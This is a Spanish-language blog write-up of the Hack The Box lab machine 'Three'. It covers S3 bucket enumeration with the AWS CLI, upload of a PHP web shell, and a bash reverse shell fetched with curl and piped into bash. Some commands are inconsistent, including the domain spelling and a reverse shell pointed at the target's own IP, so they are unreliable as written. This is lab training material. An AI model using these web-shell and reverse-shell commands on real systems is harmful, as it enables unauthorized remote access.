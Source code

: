 ```yaml
---
layout:   post
title:   "Write Up Three."
subtitle:   "Starting-Point"
category:   Blog
tags:   [Easy,Genin,Linux,HTB,Web,Cloud,AWS,Custom-Applications,Reconnaissance,Web-Site-Structure-Discovery,Bucket-Enumeration,Arbitrary-File-Upload,Anonymous_Guest-Access,eJPTv2]
image:
  path: /assets/img/three/three.png
---
```


***

<!--more-->

1. this ordered seed list will be replaced by the toc
{:toc}

***

## Reconnaissance

### nmap

Utilizando **nmap**, comprobamos qué puertos están abiertos.

```bash
nmap --open -p- -Pn -n -T4 -vvv -n 10.129.30.4 -oN allports
```

![list](/assets/img/three/nmap.png){:.lead width="800" height="100" loading="lazy"}

***

### Services and Versions

```bash
nmap -sVC -Pn -n -p22,80 10.129.30.4 -oN target
```

![list](/assets/img/three/service.png){:.lead width="800" height="100" loading="lazy"}

***

## Vulnerability Analysis 

### HTTP TCP-80

En el puerto 80 se encuentra una página web. Al revisar más a fondo, no encontramos contenido un email que tien un dominio **thetoopers.htb** que meteremos al **/etc/hosts**, para posteriormente fuzzerar por directorios o subdominiosesto lo hacemos con **Gobuster**.


![list](/assets/img/three/domain.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Encontramos el dominio **thetoopers.htb**.



![list](/assets/img/three/gobuster.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Encontramos dos subdominios pro el que si funciona es **s3.thetoopers.htb**.



![list](/assets/img/three/s3.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Web **s3.thetoopers.htb**.


Con **aws configure** podemos configurar las credenciales de acceso y la región predeterminada para interactuar con los servicios de **Amazon Web Services (AWS)**.


![list](/assets/img/three/test.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Configuracion AWS.


Leyendo el manual podemos usar el comando  para listar los servidores y adema listar el contenedor de el servidor **aws** y como vemos en el manual de uso podemos subir archivos al servidor el cual usaremos para subir una **shell.php** para mandarnos una reverse-shell.


```bash
aws --endpoint-url=http://s3.thetoppers.htb/ s3 ls
```


![list](/assets/img/three/ls.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Listar los contenedores del servidor.


```bash
aws --endpoint-url=http://s3.thetoppers.htb/ s3 ls s3://s3.thetoppers.htb
```


{:.note}
Listar archivo que contiene el contenedor del servidor.


Creamos un archivo shell.php con el siguiente contenido `<?php system($_GET["cmd"]); ?>`, para luego subirlo al contenedor.


```bash
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
```


![list](/assets/img/three/upload.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Subir shell.php.


***

## Exploitation

Para explotar esta vulnerabilidad debemos crear un archivo shell.sh con el contenido.


```bash
#!/bin/bash
bash -i >& /dev/tcp/10.129.30.4/4444 0>&1
```


Esto lo hacemos para que desde el sevidor ejecutemos el **shell.php** esto lo hemos desde la url `http://thetoppers.htb/shell.php?cmd=curl%20%3C10.129.30.4/shell.sh|bash`, con **nc** debemos ponernos a la escucha en el pueto que pusimos en **shell.sh**.



![list](/assets/img/three/revshell.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Podemos enumerar el servidor tambien antes de mandarnos la reverse-shell.


![list](/assets/img/three/shell.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Archivo shell.sh y a la escucahacon nc.


Husmenado en el servidor la flag esta en el directorio /var/www/html/.


![list](/assets/img/three/flag.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Vemos la flag.


***

```bash
🎉 Felicitaciones ya has comprometido Three de HackTheBox 🎉
```
{:.centered}

***

Back to [Starting-Point](2023-02-02-Starting-Point.md){:.heading.flip-title}
{:.read-more}

***
Back to [Certification eJPTv2 ](2023-06-02-Road-to-eJPTv2.md){:.heading.flip-title}
{:.read-more}

